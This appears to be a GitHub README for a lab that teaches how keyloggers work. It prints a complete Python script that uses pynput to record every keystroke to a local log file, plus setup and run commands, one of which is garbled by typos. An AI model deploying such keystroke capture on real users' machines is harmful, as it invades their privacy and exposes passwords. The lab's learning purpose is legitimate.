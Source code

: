 # Keylogger-lab
Build a keylogger in Python to understand how attackers capture keystrokes.  

## Tools
 - Kali Linux
 - Pynput
 - Python

## Methodology
 ### 1. Install Python and Pynput  
  ```bash
sudo apy intsall python3-pip
pip3 install pynput
```
 ### 2 . Create a Keylogger Script
 - create a python file and paste the code.  
 
 ```bash
from pynput import keyboard
import logging

# Set up logging
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

# Start listening
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

 ### 3. Execute the keylogger
 ```bash
 python3 keylogger.py
 ```

 ### 4. View Logs
 
